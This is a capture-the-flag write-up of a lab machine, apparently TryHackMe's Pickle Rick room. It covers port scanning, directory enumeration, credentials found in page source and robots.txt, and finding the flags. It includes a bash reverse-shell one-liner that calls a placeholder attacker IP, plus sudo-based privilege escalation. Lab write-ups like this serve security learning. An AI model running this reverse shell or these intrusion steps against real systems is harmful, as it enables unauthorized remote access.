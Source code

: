 **Nmap**

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 15:29 IST
Nmap scan report for 10.10.40.187
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b0:c2:fe:fd:fe:b9:2d:88:ce:db:a5:b5:93:82:ec:e1 (RSA)
|   256 76:7d:e3:6c:7e:c3:75:ef:37:2d:d8:cc:e1:9f:7c:ba (ECDSA)
|_  256 a2:c1:12:92:b5:3d:0a:de:5c:a1:98:c0:be:fe:4a:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Open Ports**

- 22 ssh
- 80 http

Starting with **port 80**

![image-20220701155724268](assets/image-20220701155724268.png)

Looking the source page found the **user name** `R1ckRul3s`

![image-20220701170336909](assets/image-20220701170336909.png)

Using **Gobuster** to find directory

```bash
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.40.187/assets/]
/robots.txt           (Status: 200) [Size: 17]                                   
/server-status        (Status: 403) [Size: 300]                                  
/clue.txt             (Status: 200) [Size: 54] 
```

**/robots.txt**   `Wubbalubbadubdub`

![image-20220701163835830](assets/image-20220701163835830.png)

**/login.php**       credentials `R1ckRul3s:Wubbalubbadubdub`

![image-20220701173702320](assets/image-20220701173702320.png)

![image-20220701173858079](assets/image-20220701173858079.png)

Used bash one liner to gain the reverse shell.

```bash
bash -c 'exec bash -i &>/dev/tcp/<ip>/1234 <&1'
```

![image-20220701174236956](assets/image-20220701174236956.png)

- Found first flag in **/var/www/html**
- Found Second flag in **/home/rick** the file has a space between so use `second\ ingredients`

Now for the privilege esclation 

- sudo -l
- sudo su

![image-20220701174743613](assets/image-20220701174743613.png)

The third flage is in **/root**